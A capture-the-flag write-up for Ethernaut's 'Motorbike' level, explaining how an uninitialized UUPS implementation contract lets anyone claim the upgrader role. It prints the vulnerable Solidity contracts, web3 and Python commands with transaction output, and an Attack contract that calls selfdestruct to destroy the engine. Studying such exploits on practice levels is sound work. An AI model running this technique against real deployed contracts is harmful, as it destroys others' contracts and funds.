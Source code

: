 # 25 - Motorbike

## Challenge

Ethernaut's motorbike has a brand new upgradeable engine design.

Would you be able to `selfdestruct` its engine and make the motorbike unusable?

Things that might help:

- [EIP-1967](https://eips.ethereum.org/EIPS/eip-1967)
- [UUPS](https://forum.openzeppelin.com/t/uups-proxies-tutorial-solidity-javascript/7786) upgradeable pattern
- [Initializable](https://github.com/OpenZeppelin/openzeppelin-upgrades/blob/master/packages/core/contracts/Initializable.sol) contract

```js
// SPDX-License-Identifier: MIT

pragma solidity <0.7.0;

import "openzeppelin-contracts-06/utils/Address.sol";
import "openzeppelin-contracts-06/proxy/Initializable.sol";

contract Motorbike {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    
    struct AddressSlot {
        address value;
    }
    
    // Initializes the upgradeable proxy with an initial implementation specified by `_logic`.
    constructor(address _logic) public {
        require(Address.isContract(_logic), "ERC1967: new implementation is not a contract");
        _getAddressSlot(_IMPLEMENTATION_SLOT).value = _logic;
        (bool success,) = _logic.delegatecall(
            abi.encodeWithSignature("initialize()")
        );
        require(success, "Call failed");
    }

    // Delegates the current call to `implementation`.
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }

    // Fallback function that delegates calls to the address returned by `_implementation()`. 
    // Will run if no other function in the contract matches the call data
    fallback () external payable virtual {
        _delegate(_getAddressSlot(_IMPLEMENTATION_SLOT).value);
    }

    // Returns an `AddressSlot` with member `value` located at `slot`.
    function _getAddressSlot(bytes32 slot) internal pure returns (AddressSlot storage r) {
        assembly {
            r_slot := slot
        }
    }
}

contract Engine is Initializable {
    // keccak-256 hash of "eip1967.proxy.implementation" subtracted by 1
    bytes32 internal constant _IMPLEMENTATION_SLOT = 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;

    address public upgrader;
    uint256 public horsePower;

    struct AddressSlot {
        address value;
    }

    function initialize() external initializer {
        horsePower = 1000;
        upgrader = msg.sender;
    }

    // Upgrade the implementation of the proxy to `newImplementation`
    // subsequently execute the function call
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
        _authorizeUpgrade();
        _upgradeToAndCall(newImplementation, data);
    }

    // Restrict to upgrader role
    function _authorizeUpgrade() internal view {
        require(msg.sender == upgrader, "Can't upgrade");
    }

    // Perform implementation upgrade with security checks for UUPS proxies, and additional setup call.
    function _upgradeToAndCall(
        address newImplementation,
        bytes memory data
    ) internal {
        // Initial upgrade and setup call
        _setImplementation(newImplementation);
        if (data.length > 0) {
            (bool success,) = newImplementation.delegatecall(data);
            require(success, "Call failed");
        }
    }
    
    // Stores a new address in the EIP1967 implementation slot.
    function _setImplementation(address newImplementation) private {
        require(Address.isContract(newImplementation), "ERC1967: new implementation is not a contract");
        
        AddressSlot storage r;
        assembly {
            r_slot := _IMPLEMENTATION_SLOT
        }
        r.value = newImplementation;
    }
}
```

## Summary

We first check what is this UUPS (Universal Upgradeable Proxy Standard) pattern. Recall in last level we have Transparent proxy pattern, where proxy contract has the upgrade logic. **In a UUPS proxy pattern, the contract upgrade logic will also be coded in the implementation contract.**

![UUPS](https://cdn.hashnode.com/res/hashnode/image/upload/v1662815219918/duvwx0juR.png?auto=compress,format&format=webp)

Reading the EIP-1967 doc, we get to know that the address of the logic contract is saved in a specific storage slot of the proxy contract. The slot is calculated by `keccak256("eip1967.proxy.implementation") - 1`. The logic contract is initialized in the constructor of the proxy contract. The fallback function of the proxy contract will delegate the call to the logic contract.

In this level, our goal is to call `selfdestruct`, but current `Engine` contract has no such function. Therefore, the goal is clearly to somehow upgrade the contract to a new version that has `selfdestruct` function. 

```js
// Upgrade the implementation of the proxy to `newImplementation`
// subsequently execute the function call
function upgradeToAndCall(address newImplementation, bytes memory data) external payable {
    _authorizeUpgrade();
    _upgradeToAndCall(newImplementation, data);
}
```

We need to call `upgradeToAndCall` function to upgrade the contract.  This requires `_authorizeUpgrade`, so we need to be the `upgrader` to call this function. The only place we can modify this variable is here:

```js
function initialize() external initializer {
    horsePower = 1000;
    upgrader = msg.sender;
}
```

This function is supposed to be called by `Motorcycle` contract upon initialization, and this `initializer` modifier is supposed to prevent re-initialization. However, we can bypass this by calling `initialize` function directly. Why so? Because it's called using `delegatecall`, and we know its context preservation property: the caller contract's storage slots are updated instead of callee's. Therefore, we can call `initialize` function directly to update `upgrader` variable. The rest is easy as mentioned before.

## Walkthrough

First, we need to get the address of `Engine` contract:

```js
> engine = await web3.eth.getStorageAt(contract.address, '0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc')
'0x00000000000000000000000011eba4ee24111e0486b88e102bb5d9b27e78273a'
> engine = "0x11eba4ee24111e0486b88e102bb5d9b27e78273a"
```

Now we call `initialize` at `Engine`'s address, and we can verify we are `upgrader`:

```js
> await web3.eth.sendTransaction({ from: player, to: engine, data: web3.eth.abi.encodeFunctionSignature("initialize()") })
{blockHash: '0x6170738ef3b4548b8f414af52d745c8767e5730220b1e4152eb4a8545c1ecf8e', blockNumber: 9429705, contractAddress: null, cumulativeGasUsed: 1445980, effectiveGasPrice: 2500000849, …}
> await web3.eth.call({from: player, to: engine, data: web3.eth.abi.encodeFunctionSignature("upgrader()")}).then(v => '0x' + v.slice(-40).toLowerCase()) === player.toLowerCase()
true
```

Now we go ahead to create an attack contract that calls `selfdestruct`:

```py
# import cheb related
from cheb3 import Connection
from cheb3.utils import *

abi, bytecode = compile_sol('''
pragma solidity <0.7.0;

contract Attack {
    function attack() public {
        selfdestruct(address(0));
    }
}
''',
solc_version="0.6.12",
base_path="Ethernaut/node_modules/"
)['Attack']
attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
attackContract.deploy()
```

```bash
2023-07-29 13:41:44.990 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-07-29 13:41:50.606 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x5bB7E9b41D2B0410a675F36af79B2510D3bfB734
```

Next, replace the contract address of implementation slot in proxy with this attack contract. This requires us to call `function upgradeToAndCall(address newImplementation, bytes memory data)`:

```py
>>> attackAddr = "0x5bB7E9b41D2B0410a675F36af79B2510D3bfB734"
>>> attackData = encode_with_signature("attack()")
'0x9e5faafc'
>>> upgradeData = encode_with_signature("upgradeToAndCall(address,bytes)", attackAddr, bytes.fromhex(attackData[2:]))
'0x4f1ef2860000000000000000000000005bb7e9b41d2b0410a675f36af79b2510d3bfb734000000000000000000000000000000000000000000000000000000000000004000000000000000000000000000000000000000000000000000000000000000049e5faafc00000000000000000000000000000000000000000000000000000000'
>>> account.send_transaction(engine, data=upgradeData)
```

Finally, submit the instance to pass the level. At this moment, the `Engine` is destroyed, and `Motorbike` is now useless. Since upgrade logic is all inside logic contract, `Motorbike` cannot be fixed.

## Afterword

The advantage of following an UUPS pattern is to have very minimal proxy to be deployed. The proxy acts as storage layer so any state modification in the implementation contract normally doesn't produce side effects to systems using it, since only the logic is used through delegatecalls.

This doesn't mean that you shouldn't watch out for vulnerabilities that can be exploited if we leave an implementation contract uninitialized.

This was a slightly simplified version of what has really been discovered after months of the release of UUPS pattern.

Takeways: never leave implementation contracts uninitialized ;)